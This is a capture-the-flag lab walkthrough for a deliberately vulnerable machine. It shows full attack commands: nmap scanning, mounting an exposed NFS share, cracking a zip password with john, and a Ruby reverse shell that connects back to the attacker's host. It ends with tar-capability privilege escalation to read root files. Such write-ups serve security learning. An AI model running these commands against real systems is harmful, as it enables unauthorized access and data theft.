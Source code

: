 first of all we run nmap to enumerate the machine:

	nmap -A 10.10.41.15

From the nmap we got around 6000 open ports but the machine suggets to connect on the port 1337 (meme from the older hacker)
after the connection to the previous port says that to 0 from 100th port there is a troll face with inside a message to connect 12345 thta it says
of the presence a NFS misconfigured so we exploit it:

	mkdir temporanea
	sudo mount -t nfs 10.10.41.15:/home/nfs temporanea
	ls -a ---> backup.zip		

it's time to use john:

	zip2john backup.zip > zip.hash
	john zip.hash

inside there is the hades home with the first flag and some ssh credentials, so it's time to find the ssh port

/for copyright we skip the python script to find the right ssh port/

the port is 3333, it's time to connect:

	ssh -i id_rsa hades@10.10.41.15 -p 3333

now we're inside the server in a ruby shell by googling aka chatGPT we find some command

	Dir.entries('.')
	IO.read('user.txt') you can also use File.read

after that, it ìs time to set a  revshell in order to have a comfy shell in pwncat

   on local host we started the listener:
	python3 -m pwncat
	connect -lp 4444

   on remote machine we copy and paste from revshell.com the revshell code
	require 'socket'
	spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.8.98.143",4444))

now it's time to privesc so we run linpeas.sh and it tells us that there is a binary with vulnerable capabilities (it means that it has root capabilites when executed)
	
	cd /tmp #you must be in a word writable directory to do that
	/bin/tar -cvf root.tar /root/ 

now we have the root directory compressed in tar format so we can extract the archive and get the root directory contents:
	
	tar xf root.tar

cd extracted root and we find the root.txt.

Powered By Alessandro Eleuteri & Alessandro Lupini 


